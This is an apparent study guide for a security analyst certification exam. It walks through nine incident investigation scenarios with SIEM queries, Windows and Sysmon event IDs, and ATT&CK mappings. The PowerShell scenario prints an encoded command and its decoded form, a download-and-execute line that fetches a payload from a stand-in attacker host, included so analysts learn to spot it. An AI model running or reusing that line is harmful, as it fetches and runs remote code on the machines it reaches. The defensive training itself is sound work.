



# Real-World Incident Scenarios Based on User Reports, Alerts, and Artifacts

## TCM Exam Objectives

- Distinguish between the three trigger types: user reports, SIEM alerts, and system/network artifacts
- Apply a structured investigation methodology to each of the nine core incident scenarios
- Identify relevant log sources and Event IDs for brute force, phishing, malware, and exfiltration scenarios
- Correlate multiple tickets into a single unified attack narrative for the PSAA report
- Use a severity decision matrix to allocate investigation time across incidents
- Map observed attacker behaviour to specific MITRE ATT&CK tactics and techniques per scenario
- Recognise cross-ticket IOCs (shared IPs, users, hosts) that indicate related incidents
- Document each scenario with IOC tables, ATT&CK mappings, and actionable recommendations
- Perform email header analysis, URL enrichment, and attachment hash verification for phishing
- Triage and scope cloud-related incidents including OAuth abuse and insider data uploads

The PSAA exam presents a number of security scenarios based on user reports, alerts, or system and network artifacts. You must investigate, identify indicators of compromise, and analyze activity across multiple systems and endpoints. There are no flags to capture and no multiple-choice questions. Each scenario tests your ability to apply a complete investigation methodology—from triage through evidence collection, correlation, scoping, and documentation.

- Three incident trigger types: user reports, SIEM alerts, system/network artifacts
- Nine core incident scenarios with complete playbooks
- Universal investigation methodology applied to every scenario
- Tool and log source mapping per scenario type
- PSAA report documentation requirements





## The Exam Landscape: How Incidents Are Presented

Every ticket in the PSAA exam originates from one of three triggers:

| Trigger Type | How It Appears | First Action |
|--------------|----------------|--------------|
| **User Report** | "User reports receiving a suspicious email..." or "User reports slow workstation..." | Begin with user context. Interview the artifact. Pivot into SIEM. |
| **SIEM Alert** | Detection rule fires: "Suspicious outbound connection from DESKTOP-CLIENT1 to malicious IP" | Begin with alert pivot fields. Triage, enrich IOC, expand time window. |
| **System/Network Artifact** | "Review the provided PCAP file" or "Analyze the memory dump from FILE-SERVER01" | Begin with the artifact itself. Use Wireshark, Volatility, etc. |

> 📌 **Exam Tip:** Cross-ticket correlation is where top-scoring PSAA candidates separate from average ones. During your first hour, create a simple table mapping every unique IP, user, and hostname across all tickets. Two tickets that share an IP or user are almost certainly part of the same attack chain. Reporting them as a single unified incident demonstrates advanced analytical thinking and scores significantly higher on the PSAA rubric.

## Nine Core Incident Scenarios

### Scenario 1: Multiple Failed Logins (Brute-Force Attack Detection)

**Ticket:** SIEM alert reporting 500+ failed login attempts on VPN gateway from external IP `203.0.113.55`.

**Investigation:**
1. **Triage:** Classic brute-force indicator. High severity due to volume and external source.
2. **SIEM Query (Splunk):** `index=vpn OR index=linux_secure src_ip="203.0.113.55" | stats count by user, action`
3. **Pivot:** Search for any successful authentication from the same source IP.
4. **Threat Intel:** Enrich `203.0.113.55` with VirusTotal and AbuseIPDB.
5. **Scoping:** If successful login found, pivot on compromised account.
6. **ATT&CK:** T1110.001 (Brute Force: Password Guessing) -> Credential Access.

**Expected IOCs:** Attacker source IP, targeted usernames, compromised username (if any), timestamps.

### Scenario 2: Successful Login After Multiple Failures

**Ticket:** Successful login for service account `svc_backup` from attacker IP `203.0.113.55`. Account should never be used for VPN access.

**Investigation:**
1. **Triage:** Confirmed credential compromise. Critical severity.
2. **Pivot on account:** `index=* user="svc_backup"` across all log sources.
3. **Lateral movement check:** Event ID 4624 (Logon Type 3 or 10) for `svc_backup`.
4. **Privilege check:** Event ID 4672, 4732, 4728.
5. **Process review:** Sysmon EID 1 for processes under `svc_backup` context.

**Key Log Sources:** Windows Security 4624, 4672, 4720, 4732, 4728; Sysmon EID 1, 3; VPN logs.

### Scenario 3: Privilege Escalation Detection

**Ticket:** Standard user `jsmith` added to local Administrators group on DESKTOP-ENGINEER-01.

**Investigation:**
1. **Triage:** Unauthorized privilege escalation. High severity.
2. **Identify escalation event:** Event ID 4732 on the host for Administrators group.
3. **Trace process:** Pivot on SubjectLogonId to find process that made the change (Sysmon EID 1).
4. **Check credential dumping:** Sysmon EID 10 showing process accessing `lsass.exe`.

**Key Log Sources:** Windows Security 4732, 4728, 4672; Sysmon EID 1, 10.

<details>
<summary>🔧 Distinguishing Authorized vs. Malicious Privilege Escalation</summary>

Authorized escalation is typically performed via Group Policy, a privileged IT tool (like Configuration Manager), or by a domain admin using standard tools (`lusrmgr.msc`, `net localgroup`). Malicious escalation often originates from suspicious processes (cmd.exe, powershell.exe spawned from unexpected parents), at unusual hours, or from non-standard accounts. Always trace the parent process chain and correlate with the time and context of the user's activity.

If malicious, recommend removing the user from the admin group, resetting affected credentials, deploying LAPS, and implementing a tiered administrative model.

</details>

### Scenario 4: Malware Detection

**Ticket:** EDR alert for suspicious executable `invoice_0425.exe` in `C:\Users\Public\` on DESKTOP-FINANCE-02.

**Investigation:**
1. **File Analysis:** Extract SHA-256 hash, submit to VirusTotal.
2. **Trace File Origin:** Sysmon EID 11 (FileCreate) to determine how file was written.
3. **Trace Execution:** Sysmon EID 1 for execution; note parent process and user context.
4. **Network Connections:** Sysmon EID 3 for outbound connections.
5. **Persistence:** Sysmon EID 11 (startup), EID 13 (Run keys), Event 4698 (scheduled task).
6. **Scoping:** Pivot on hash across all endpoints; pivot on C2 IPs/domains.

| Artifact | Source | Example |
|----------|--------|---------|
| File hash | Sysmon EID 1, VirusTotal | SHA-256 of malware |
| Filename | Sysmon EID 11 | `invoice_0425.exe` |
| C2 IP | Sysmon EID 3 | `198.51.100.77:443` |
| Persistence | Event 4698, Sysmon EID 13 | Scheduled task name, Run key value |

### Scenario 5: Phishing Email Analysis

**Ticket:** User forwarded suspicious email claiming to be from IT with link to `http://login-microsoft-verify[.]com/owa`.

**Investigation:**
1. **Email Header Analysis:** Inspect Received headers, From/Reply-To/Return-Path, SPF/DKIM/DMARC.
2. **URL Analysis:** Submit URL to VirusTotal and URLScan.io. Check WHOIS registration date.
3. **Attachment Analysis (if present):** Extract hash and submit to VirusTotal.
4. **Scoping:** `index=proxy OR index=dns url="*login-microsoft-verify.com*"` to find users who clicked.

**Expected IOCs:** Sender email, Reply-To, phishing URL/domain, attachment hash, sending mail server IPs.

### Scenario 6: Data Exfiltration Attempt

**Ticket:** DLP alert: user `rwilson` uploaded 2.5 GB to personal cloud storage from DESKTOP-HR-03 at 23:45 UTC.

**Investigation:**
1. **Pivot on user and time:** All activity by `rwilson` on `DESKTOP-HR-03` surrounding the transfer.
2. **File Access Audit:** Event ID 4663 to identify files accessed prior to upload.
3. **Process Analysis:** Sysmon EID 1 and 3 to identify upload process (browser, custom tool, cloud sync).
4. **Network Volume:** Firewall/proxy logs for total bytes transferred.
5. **Automation check:** Sysmon EID 1 for scripting tools (PowerShell, Python).



### Scenario 7: Suspicious PowerShell Execution

**Ticket:** Encoded PowerShell command on WEB-SRV-01: `powershell.exe -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZQB2AGkAbAAuAGMAbwBtAC8AcABhAHkAbABvAGEAZAAnACkA`

**Investigation:**
1. **Decode Base64:** `[System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String("..."))` reveals `IEX (New-Object Net.WebClient).DownloadString('http://evil.com/payload')`.
2. **Trace parent process:** Sysmon EID 1 shows parent. Was it `w3wp.exe` (web shell), `cmd.exe`, or `winword.exe`?
3. **Network connections:** Sysmon EID 3 to `evil.com`.
4. **Subsequent execution:** Sysmon EID 1 for processes spawned by PowerShell.
5. **Persistence:** Check for web shells, scheduled tasks, registry modifications.

### Scenario 8: Brute-Force Attack on VPN and C2 Beaconing (Combined)

**Ticket:** Brute-force at 02:00 UTC from `185.220.101.34`. Successful login for `bwilson` at 02:15. Cobalt Strike beacon from DESKTOP-SALES-07 to `198.51.100.77` at 02:20.

**Investigation:**
1. **Phase 1 - Brute-Force:** Confirm failed login pattern and successful login.
2. **Phase 2 - C2 Beacon:** Analyze EDR alert. Extract C2 IP. Enrich with VirusTotal.
3. **Phase 3 - Execution Chain:** Trace process that established C2 connection.
4. **Phase 4 - Lateral Movement:** Pivot on `bwilson` for Event ID 4624 (Logon Type 3).

| Phase | Artifacts | ATT&CK |
|-------|-----------|--------|
| Brute-force | Event 4625 (multiple), VPN logs | T1110 |
| Credential access | Event 4624 from attacker IP | T1078 |
| Execution | Sysmon EID 1 (beacon process) | T1059/T1204 |
| Command & Control | Sysmon EID 3, firewall logs | T1071 |

### Scenario 9: Suspicious Cloud File Upload

**Ticket:** CASB alert: departing employee `kthompson` uploaded `Customer_Database_Full.csv` (850 MB) to personal Google Drive on last day of employment.

**Investigation:**
1. **Confirm upload:** Proxy/CASB logs showing upload details.
2. **File access audit:** Event ID 4663 to trace when source file was accessed.
3. **Preceding activity:** Sysmon EID 1 and 3 for database tools, archive creation, scripting.
4. **Email check:** Email gateway logs for data-related communications.
5. **USB activity:** Event ID 4663 and Sysmon EID 9 for USB mass storage.

## Cross-Ticket Correlation: Connecting the Dots

In the PSAA exam, multiple tickets may relate to the same underlying attack. Recognising these connections is critical for producing a cohesive report.

**Correlation Checklist:**
- Do any tickets share the same IP address, user account, or hostname?
- Do timestamps from different tickets overlap or follow sequentially?
- Does the same attacker TTP appear across multiple incidents?
- Does one incident's IOC appear in another incident's logs?

**Example Cross-Ticket Correlation:**
- Ticket A: Phishing email containing URL `evil-c2.xyz`
- Ticket B: C2 beacon from DESKTOP-SALES-07 to `evil-c2.xyz`
- Connection: The user who received the phishing email works on DESKTOP-SALES-07. These tickets are the same attack chain.

```mermaid
flowchart TD
    T1[Ticket 1: Phishing Email<br/>evil-c2.xyz URL] --> T2[Ticket 2: C2 Beacon<br/>DESKTOP-SALES-07 -> evil-c2.xyz]
    T1 --> T3[Ticket 3: Data Exfiltration<br/>SharePoint downloads by same user]
    T2 --> T4[Ticket 4: Lateral Movement<br/>From DESKTOP-SALES-07 to FILE-SRV]
    subgraph Single Incident
        T1
        T2
        T3
        T4
    end
    Single Incident --> R[One unified report<br/>not four separate reports]
```

When you identify connections, merge those tickets into a single incident narrative in your final report. This demonstrates that you understand the attack as a whole rather than as isolated alerts.

## Universal Investigation Methodology

| Step | Action | PSAA Application |
|------|--------|------------------|
| **1. Triage** | Read ticket, determine severity, extract pivot fields | Assign severity based on asset criticality |
| **2. Hypothesis** | Form initial explanation | Frame so evidence proves or disproves |
| **3. Evidence Collection** | SIEM queries, pivot on entities, enrich IOCs | Document every query, capture screenshots |
| **4. Correlation** | Connect events across log sources | Build unified timeline |
| **5. Scoping** | Determine all affected hosts, users, data | Pivot on every compromised entity |
| **6. Impact Assessment** | Evaluate operational, data, regulatory impact | Note GDPR/CCPA if PII exfiltrated |
| **7. Decision** | True positive or false positive? | Document verdict with evidence |
| **8. Recommendations** | Reactive and proactive measures | Tie to specific IOCs and ATT&CK techniques |

## Tool Mapping by Scenario

| Tool Category | Primary Tools | Scenario Application |
|---------------|---------------|---------------------|
| **SIEM** | Splunk (SPL), Kibana/Elastic (KQL) | Central investigation hub for all scenarios |
| **EDR** | LimaCharlie, Elastic Defend | Malware, C2, lateral movement scenarios |
| **Packet Analysis** | Wireshark, TShark, tcpdump | Network intrusion, C2, exfiltration scenarios |
| **Threat Intelligence** | VirusTotal, AbuseIPDB, URLScan.io, OTX | IOC enrichment for every scenario |
| **Email Analysis** | Manual header inspection, MXToolbox | Phishing scenarios |
| **Forensics** | FTK Imager, Volatility, Autopsy | Memory and disk artifact analysis |
| **Command Line** | PowerShell, grep, awk, journalctl | Direct log parsing on Windows and Linux |

## PSAA Report Documentation

For each incident scenario, your PSAA report must include:
1. **Incident Summary:** One-paragraph overview
2. **Investigation Details:** Step-by-step analysis with SIEM queries and screenshots
3. **IOC Table:** Type, value, context, and OSINT source
4. **ATT&CK Mapping:** Table linking observed behaviors to techniques
5. **Impact Assessment:** Operational, data, regulatory, reputational impact
6. **Recommendations:** Reactive (containment, eradication, recovery) and proactive (preventative controls, detection rules)

> 📌 **Exam Tip:** During the first hour of triage, assign every ticket a severity using the decision matrix below. Colour-code them: red (Critical/High), yellow (Medium), green (Low). Tackle all red tickets first on Day 1 morning. If you finish them, move to yellow. Green tickets should only be investigated after all red and yellow tickets are fully documented. This ensures you never run out of time for a high-value incident.

## Scenario Severity Decision Matrix

When triaging tickets in the PSAA, use this matrix to assign initial severity consistently:

| Severity | Criteria | Response Time | Report Detail Level |
|----------|----------|---------------|---------------------|
| **Critical** | Confirmed C2, data exfiltration in progress, domain admin compromise | Immediate | Full narrative, complete timeline |
| **High** | Malware execution, privilege escalation, lateral movement detected | Within 1 hour | Full narrative |
| **Medium** | Phishing (user did not click), single failed brute force, policy violation | Within 2 hours | Summary with evidence |
| **Low** | Informational alert, known false positive, log review request | Within 4 hours | Brief justification |

Apply this matrix during the first hour of the investigation phase to allocate your time effectively. Do not spend a full investigation on a low-severity false positive when a critical incident requires attention.

## Recap

The nine core incident scenarios—brute-force, credential compromise, privilege escalation, malware, phishing, data exfiltration, PowerShell execution, combined C2 beaconing, and insider cloud upload—each require a structured methodology. The universal investigation framework of triage, hypothesis, evidence collection, correlation, scoping, impact assessment, decision, and recommendations applies consistently across all scenarios. Your PSAA report must document findings with clear IOC tables, ATT&CK mappings, and actionable recommendations tied to specific evidence.
